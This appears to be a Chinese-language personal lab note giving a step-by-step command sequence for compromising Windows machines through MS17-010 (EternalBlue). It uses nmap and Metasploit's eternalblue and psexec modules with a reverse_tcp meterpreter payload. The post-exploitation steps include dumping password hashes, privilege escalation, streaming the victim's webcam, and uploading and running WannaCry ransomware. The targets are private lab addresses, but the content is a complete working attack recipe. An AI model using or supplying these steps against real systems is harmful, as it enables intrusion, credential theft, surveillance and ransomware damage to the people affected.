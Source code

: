 # 环境
宿主机:	192.168.43.152
kali:	192.168.43.1
win32:	192.168.43.3（防火墙允许文件与打印机共享）
win64:	192.168.19.2（防火墙允许文件与打印机共享）

# 主机发现
nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open 
也可以用
nmap -n -p445 192.168.43.2
>nmap ms17-010 定向扫描,发现端口开放并存在ms17-010 漏洞

# 使用msf框架攻击win64
msfconsole 
>进入msf>
version
>确保MS
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010
>漏洞模块路径查询，搜索到了 4 个相关的插件：
>auxiliary/admin/smb/ms17_010_command
>auxiliary/scanner/smb/smb_ms17_010
>exploit/windows/smb/ms17_010_eternalblue
>exploit/windows/smb/ms17_010_psexec
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules
use exploit/windows/smb/ms17_010_eternalblue
>调用攻击模块
options
>查看参数,并设置：
set RHOST 192.168.43.2
>设定攻击目标 
show payloads
>查看详细信息
set payload windows/x64/meterpreter/reverse_tcp
>配置攻击载荷 
set LHOST 192.168.43.1
>设置操作机地址,即kali本机地址
exploit
>发起攻击,也可以用run。出现win -success!就成功了。

# 可以试试以下操作，或者help
getuid，sysinfo
>查看系统信息
webcam_list
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控
route  
>查看路由表
screenshot 
>桌面截图，很卡
shell
>打开命令行，然后可以ipconfig/whoami/net user
ps
>看看开了哪些杀毒软件，内网一致
kill
hashdump
getsystem
>提权
upload wcry/wcry.ext c:\
upload wcry/FILE_ID.DIZ c:\
execute -f c:\wcry.exe
>上传和执行勒索病毒

# 使用msf框架攻击win32
use exploit/windows/smb/ms17_010_psexec
set RHOST 192.168.43.3
set payload windows/meterpreter/reverse_tcp
show options
查看设置好的参数
set LHOST 192.168.43.1
set SMBUser aleecy
>32位机的账号
set SMBPass 0
>32位机的密码
exploit


# 更多参考：
http://www.sqlsec.com/2018/03/smb.html
https://blog.csdn.net/zmeixuan/article/details/77587370
http://www.freebuf.com/articles/system/132274.html

# 清理重载msf：
/etc/init.d/postgresql restart
reload_all




